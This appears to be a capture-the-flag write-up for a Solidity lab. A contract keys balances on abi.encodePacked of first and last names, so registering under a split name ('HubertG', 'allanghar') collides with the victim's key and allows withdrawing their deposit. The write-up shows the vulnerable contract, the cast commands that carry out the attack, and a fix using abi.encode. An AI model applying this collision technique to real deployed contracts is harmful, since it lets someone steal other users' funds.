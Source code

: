 ## Mitigation

The vulnerability, or should we say the path that led us to gaining all **Hubert Gallanghar** access, was the *Singularity.sol::getIdentity()*, that's because that function is the one responsible for giving everyone their unique ID. Here is the code &nbsp;  
&nbsp;  
```solidity
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}
```
&nbsp;  
What we can do to make it secure is to use *abi.encode()* instead of *abi.encodePacked()*, Why? Because *abi.encode()* preserves the structure of the inputs, avoiding ambiguous concatenation, here is how we can fix the smart contract by just changing how the *getIdentity()* works &nbsp;  
&nbsp;  
```solidity
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encode(_firstName, _lastName);
}
```
&nbsp;  
While there may be some other way to mitigate this, such as adding a unique nonce or identifier alongside the *abi.encodePacked()*, or maybe adding delimiters or length prefixes to encoded data, the best way is, of course, just to avoid using it and just use *abi.encode()* AND avoid relying on hashes or bytes alone for critical security checks.

## Walkthrough 

The setup first will register itself as "**Hubert Gallanghar**" and deposit 20 Ether alongside that. What we need to do is make the balance of "**Hubert Gallanghar**" become 0 to solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Singularity.sol";

contract Setup{
    Singularity public singular;

    constructor() payable{
        singular = new Singularity();
        singular.register{value: 20 ether}("Hubert", "Gallanghar");
    }

    function isSolved() public view returns(bool){
        return singular.checkBalance("Hubert", "Gallanghar") == 0;
    }

}
```
&nbsp;  
Now let's take a look at *Singularity.sol* to see what we can do and find the vulnerability. &nbsp;  
&nbsp;  
```solidity
mapping(bytes=>uint256) public balanceOf;
mapping(string=>mapping(string=>address)) public Member;
```
&nbsp;  &nbsp;  
We can see that it has 2 mappings for *balanceOf* that will track the balance based on the unique ID generated by *getIdentity* and *Member* that will track the address of the respective name (first name & last name). Next, let's see the functions. &nbsp;  
&nbsp;  
```solidity 
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}

function register(string memory _firstName, string memory _lastName) public payable{
    require(Member[_firstName][_lastName] == address(0), "Already Registered");
    require(msg.value > 0);
    bytes memory code = getIdentity(_firstName, _lastName);
    balanceOf[code] += msg.value;
    Member[_firstName][_lastName] = msg.sender;
}

function withdraw(string memory _firstName, string memory _lastName, uint256 _amount) public{
    require(Member[_firstName][_lastName] == msg.sender, "You cannot withdraw other people money!");
    bytes memory code = getIdentity(_firstName, _lastName);
    require(balanceOf[code] - _amount >= 0, "You don't have this kind of money!");
    balanceOf[code] -= _amount;
}   

function checkBalance(string memory _firstName, string memory _lastName) public view returns(uint256){
    bytes memory code = getIdentity(_firstName, _lastName);
    return balanceOf[code];
}
```
&nbsp;  
We can see that in *getIdentity()* the unique ID generator is actually using *abi.encodePacked()*, which is not recommended due to the direct concatenation. Here is an example. &nbsp;  
&nbsp;  
```text
firstName = "Hubert"
lastName = "Gallanghar"

abi.encodePacked(firstName, lastName) -> "HuberGallanghar"
(hex form) 0x48756265727447616c6c616e67686172
```
&nbsp;  
The function will return just that, so let's say what if we register ourselves using the first names "**HubertG**" and "**allanghar**"? Yep, that's correct; we will get the same concatenation of "**HubertGallanghar**", because the return value of the *getIdentity()* is also *0x48756265727447616c6c616e67686172*. Knowing this, we can just directly register using the first name and last name of "**HubertG**" and "**allanghar**" and just send 1 ether for the registration fee. &nbsp;  
&nbsp;  
```bash
// registering with HubertG allanghar
cast send -r $RPC_URL --private-key $PK $SINGULARITY_ADDR "register(string, string)" "HubertG" "allanghar" --value 1ether

// make sure that the balance is now 21 Ether
cast call -r $RPC_URL $SINGULARITY_ADDR "checkBalance(string, string)" "HubertG" "allanghar"

// make a withdrawal of 21 Ether, emptying Hubert Gallanghar balance
cast send $RPC_URL --private-key $PK $SINGULARITY_ADDR "withdraw(string, string,uint256)" "HubertG" "allanghar" 21000000000000000000
```
&nbsp;  
Why can't we use "**Hubert**" "**Gallanghar**", since we have the same bytes? It's because the original name was owned by the setup contract, and it checks whether the name owner is us (msg.sender) or not upon withdrawal. &nbsp;  
&nbsp;  
By running the command above, we should've solved the lab.